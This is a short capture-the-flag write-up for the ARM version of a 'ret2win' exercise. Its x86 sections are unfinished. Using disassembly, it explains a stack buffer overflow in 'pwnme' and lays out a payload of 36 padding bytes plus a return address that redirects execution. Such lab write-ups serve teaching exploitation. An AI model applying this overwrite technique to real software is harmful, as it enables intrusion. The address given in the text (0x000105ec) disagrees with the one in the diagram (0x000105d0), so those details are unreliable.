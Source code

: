 # ret2win

## x86_64: (TODO)

## x86: (TODO)

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
```
The `pwnme` function prologue declares 32 bytes of stack.
The read function is then used to get 56 characters from user input.
```asm
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
```
We can deduce the address where those characters will be placed.
`fp - 36` is equivalent to `sp`. since the frame pointer is stored right under the 32 bytes buffer.

Since `fp` and `pc` are popped in this order at the end, if we want to overwrite `pc`,
we need to write 36 bytes beyond the buffer
```asm
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
The `ret2win` function is at address `0x000105ec` so our final buffer is:
36 bytes of padding + ret2win address

```
Stack:                       Payload:
╷             ╷              ┌─────────────┐ <- PADDING (36)
│ buffer...   │              │ 20 20 20 20 │
├─────────────┤<- sp + 32    │ ........... │
│ fp          │              │ 20 20 20 20 │
├─────────────┤<- fp         ├─────────────┤ <- ret2win
│ pc          │              │ 0x000105d0  │
├─────────────┤              └─────────────┘
```
